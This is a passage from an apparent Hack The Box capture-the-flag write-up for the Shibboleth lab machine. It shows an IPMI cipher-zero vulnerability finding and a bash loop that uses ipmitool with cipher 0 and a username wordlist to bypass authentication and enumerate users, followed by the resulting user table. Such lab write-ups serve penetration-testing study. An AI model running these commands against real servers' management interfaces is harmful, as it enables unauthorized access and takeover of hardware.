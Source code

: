 ```bash
[+] 10.10.11.124:623 - IPMI - VULNERABLE: Accepted a session open request for cipher zero
```

<br>

We can abuse this issue with `ipmitool`, however it requires a valid user so loop through different user lists to get a hit.
```bash
┌──(void㉿void)-[/htb/shibboleth]
└─$ for i in $(cat /usr/share/metasploit-framework/data/wordlists/ipmi_users.txt); do ipmitool -I lanplus -C 0 -H 10.10.11.124 -U $i -P randomjunkpass user list; done
Error: Unable to establish IPMI v2 / RMCP+ session
Error: Unable to establish IPMI v2 / RMCP+ session
Error: Unable to establish IPMI v2 / RMCP+ session
ID  Name	     Callin  Link Auth	IPMI Msg   Channel Priv Limit
1                    true    false      false      USER
2   Administrator    true    false      true       USER
3                    true    false      false      Unknown (0x00)
4                    true    false      false      Unknown (0x00)
5                    true    false      false      Unknown (0x00)
6                    true    false      false      Unknown (0x00)
7                    true    false      false      Unknown (0x00)
8                    true    false      false      Unknown (0x00)
9                    true    false      false      Unknown (0x00)
10                   true    false      false      Unknown (0x00)
11                   true    false      false      Unknown (0x00)
12                   true    false      false      Unknown (0x00)
13                   true    false      false      Unknown (0x00)
14                   true    false      false      Unknown (0x00)
15                   true    false      false      Unknown (0x00)
16                   true    false      false      Unknown (0x00)
17                   true    false      false      Unknown (0x00)
18                   true    false      false      Unknown (0x00)
19                   true    false      false      Unknown (0x00)
20                   true    false      false      Unknown (0x00)
21                   true    false      false      Unknown (0x00)
22                   true    false      false      Unknown (0x00)
23                   true    false      false      Unknown (0x00)
24                   true    false      false      Unknown (0x00)
25                   true    false      false      Unknown (0x00)
26                   true    false      false      Unknown (0x00)
27                   true    false      false      Unknown (0x00)
28                   true    false      false      Unknown (0x00)
29                   true    false      false      Unknown (0x00)
30                   true    false      false      Unknown (0x00)
31                   true    false      false      Unknown (0x00)
32                   true    false      false      Unknown (0x00)
33                   true    false      false      Unknown (0x00)
34                   true    false      false      Unknown (0x00)
35                   true    false      false      Unknown (0x00)
36                   true    false      false      Unknown (0x00)
37                   true    false      false      Unknown (0x00)
38                   true    false      false      Unknown (0x00)
39                   true    false      false      Unknown (0x00)
40                   true    false      false      Unknown (0x00)
41                   true    false      false      Unknown (0x00)
42                   true    false      false      Unknown (0x00)
43                   true    false      false      Unknown (0x00)
44                   true    false      false      Unknown (0x00)
45                   true    false      false      Unknown (0x00)
46                   true    false      false      Unknown (0x00)
47                   true    false      false      Unknown (0x00)
48                   true    false      false      Unknown (0x00)
49                   true    false      false      Unknown (0x00)
```